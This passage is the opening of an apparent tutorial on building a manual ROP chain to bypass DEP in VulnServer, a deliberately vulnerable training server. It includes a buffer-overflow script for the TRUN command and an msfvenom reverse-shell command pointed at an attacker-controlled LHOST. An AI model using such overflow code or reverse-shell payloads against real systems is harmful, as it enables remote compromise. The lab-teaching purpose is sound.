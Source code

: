 ```yaml
---
title: "VirtualProtect DEP Bypass: Step-By-Step Exploit"
date: "2025-04-08"
tags: ["Exploit Development", "VulnServer", "DEP Bypass", "ROP", "Buffer Overflow", "Windows Exploitation"]
---
```


# VirtualProtect DEP Bypass: Step-By-Step Exploit

![ROP chain exploitation techniques](/images/dep-bypass.jpeg)

## Introduction

Data Execution Prevention (DEP) has been a game-changer in exploit development. The days of simply overflowing a buffer, jumping to your shellcode, and calling it a day are long gone. DEP enforces a simple rule: memory can be writable OR executable, but not both at the same time.

So what happens when you try to execute shellcode in a classic buffer overflow? DEP detects code execution from a writable memory area and shuts everything down. Game over.

But DEP isn't the impenetrable wall it appears to be. Through the magic of Return-Oriented Programming (ROP), we can leverage existing executable code to call Windows APIs that change memory protections, effectively bypassing DEP.

In this guide, I'll walk you through manually creating a ROP chain to exploit VulnServer's TRUN command vulnerability with DEP enabled. Unlike many tutorials that rely on automated tools, we'll build our exploit piece by piece, understanding each step along the way.

## Prerequisites

- Windows 7/10 (32-bit) with WinDbg or Immunity Debugger with Mona.py. (This guide focuses on the 32-bit architecture).
- VulnServer running on a Windows VM (ensure it's the 32-bit version).
- Python 3 for exploit development
- Basic understanding of vanilla buffer overflows

## 1. Understanding the Vulnerability

Let's start by confirming that DEP is indeed preventing our standard exploit. A typical buffer overflow exploit for VulnServer would look like this:

```python
import struct
import socket

target = ("192.168.0.111", 9999)  # VulnServer

VULNSRVR_CMD = b"TRUN /.:/"
OFFSET = 2003  # Bytes until we reach EIP
JMP_ESP = 0x625011AF  # Address of a JMP ESP instruction

# Shellcode - msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.10 LPORT=4444 -f python -b '\x00'
shellcode = b"SHELLCODE"

payload = VULNSRVR_CMD
payload += b"A" * OFFSET
payload += struct.pack("<I", JMP_ESP)
payload += b"\x90" * 16  # NOP sled
payload += shellcode

```